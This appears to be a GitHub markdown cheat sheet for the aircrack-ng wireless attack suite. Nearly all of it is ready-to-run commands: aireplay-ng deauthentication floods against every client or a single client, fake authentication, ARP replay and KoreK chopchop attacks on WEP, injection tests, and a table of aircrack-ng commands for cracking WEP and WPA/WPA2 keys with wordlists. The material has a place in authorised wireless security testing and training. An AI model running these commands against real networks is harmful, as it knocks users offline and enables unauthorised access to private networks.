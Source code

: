 ### **Deauthentication Attacks**
```bash
# Deauth all clients from AP
aireplay-ng -0 0 -a 00:11:22:33:44:55 wlan0mon

# Deauth specific client
aireplay-ng -0 5 -a 00:11:22:33:44:55 -c 66:77:88:99:AA:BB wlan0mon

# Continuous deauth
aireplay-ng -0 0 -a 00:11:22:33:44:55 wlan0mon

# Deauth with reason code
aireplay-ng -0 5 -a 00:11:22:33:44:55 --reason 7 wlan0mon
```

### **WEP Attacks**
```bash
# Fake authentication (open system)
aireplay-ng -1 0 -a 00:11:22:33:44:55 -h 00:11:22:33:44:66 wlan0mon

# Fake authentication (shared key)
aireplay-ng -1 0 -a 00:11:22:33:44:55 -h 00:11:22:33:44:66 -e "NetworkName" wlan0mon

# ARP request replay
aireplay-ng -3 -b 00:11:22:33:44:55 -h 00:11:22:33:44:66 wlan0mon

# KoreK chopchop attack
aireplay-ng -4 -b 00:11:22:33:44:55 -h 00:11:22:33:44:66 wlan0mon
```

### **Injection Testing**
```bash
# Test injection capability
aireplay-ng -9 wlan0mon

# Test specific AP
aireplay-ng -9 -a 00:11:22:33:44:55 wlan0mon

# Test with specific interface
aireplay-ng -9 -i wlan0mon wlan0mon
```

---

## 🔓 Password Cracking & Key Recovery

### **aircrack-ng - Password Cracking**

| Command | Example | Description |
|---------|---------|-------------|
| WEP cracking | `aircrack-ng capture.cap` | Crack WEP key |
| WPA/WPA2 cracking | `aircrack-ng -w wordlist.txt capture.cap` | Crack WPA with wordlist |
| Specific BSSID | `aircrack-ng -b 00:11:22:33:44:55 capture.cap` | Target specific BSSID |
| Show networks | `aircrack-ng capture.cap` | Show captured networks |
| ASCII output | `aircrack-ng -a 1 capture.cap` | WEP ASCII key output |
| Hexadecimal | `aircrack-ng -a 2 capture.cap` | WEP hex key output |
| Combine files | `aircrack-ng *.cap` | Use multiple capture files |
